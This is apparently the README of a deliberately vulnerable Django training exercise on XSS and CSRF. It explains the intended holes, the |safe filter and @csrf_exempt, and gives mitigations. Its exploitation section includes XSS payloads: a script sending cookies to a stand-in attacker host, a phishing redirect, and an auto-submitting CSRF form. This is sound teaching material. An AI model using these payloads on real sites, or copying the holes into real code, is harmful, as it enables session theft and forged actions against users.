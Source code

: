 # XSS and CSRF Vulnerabilities in a Django Application

## Description

This exercise demonstrates two critical web vulnerabilities within a Django-based web application:

1. **Cross-Site Scripting (XSS)** due to improper output escaping.
2. **Cross-Site Request Forgery (CSRF)** due to disabled CSRF protection.

---

## Vulnerabilities Details

### 1. Cross-Site Scripting (XSS)

- The application renders user-supplied input using the Django template syntax with the `safe` filter:

```django
{{ code|safe }}
```

- The safe filter disables Django's automatic escaping mechanism, allowing injected HTML or JavaScript to be rendered and executed directly in the browser.
- Impact: Attackers can inject malicious JavaScript into pages, steal cookies, perform actions on behalf of users, or manipulate site content.

### 2. Cross-Site Request Forgery (CSRF)

- The application uses the @csrf_exempt decorator on form-processing views:
```python
@csrf_exempt
def vulnerable_view(request):
    ...
```

- This disables Django’s built-in CSRF protection, allowing any site to craft and submit malicious requests on behalf of authenticated users.
- Impact: Attackers can force logged-in users to perform unintended actions like submitting forms, changing passwords, or making purchases.

## Exploitation Steps

### Exploiting XSS

Submit a payload via the vulnerable input field, for example:

```html
<script>alert('XSS');</script>
```

The script will be rendered and executed in the browser immediately because of the |safe filter.

More opportunities
```html
<img src=x onerror=alert(1)>
```

```html
<body onload=alert('XSS')>
```

### Example attack payloads:

```html
<script>fetch('http://attacker.com?c=' + document.cookie)</script>
```

```html
<script>window.location='http://phishing-site.com'</script>
```

### Exploiting CSRF

1. Craft a malicious HTML page that sends a POST request to the vulnerable Django view.

```html
<html>
  <body>
    <form action="http://victim-site.com/vulnerable-endpoint/" method="POST">
      <input type="hidden" name="data" value="Hacked">
      <input type="submit" value="Submit">
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
```

2. Trick a logged-in user into visiting the attacker's page.
3. The form will automatically submit and perform actions without the user’s knowledge.

## Why This is Dangerous

- XSS	Allows attackers to execute arbitrary scripts in the victim’s browser.
- CSRF	Allows attackers to perform state-changing actions on behalf of authenticated users.

Both vulnerabilities can lead to account compromise, sensitive data leakage, or full application takeover.

## Objective for Participants

- ✅ Successfully inject JavaScript via XSS.
- ✅ Successfully submit unauthorized requests via CSRF.
- ✅ Understand why output sanitization and CSRF protection are critical in modern web development.

## Mitigation Recommendations

- For XSS: Never use the safe filter unless absolutely necessary. Always validate and sanitize user inputs.
- For CSRF: Always enable CSRF protection and use Django’s built-in CSRF tokens in forms.

## Run

```commandline
python manage.py runserver
```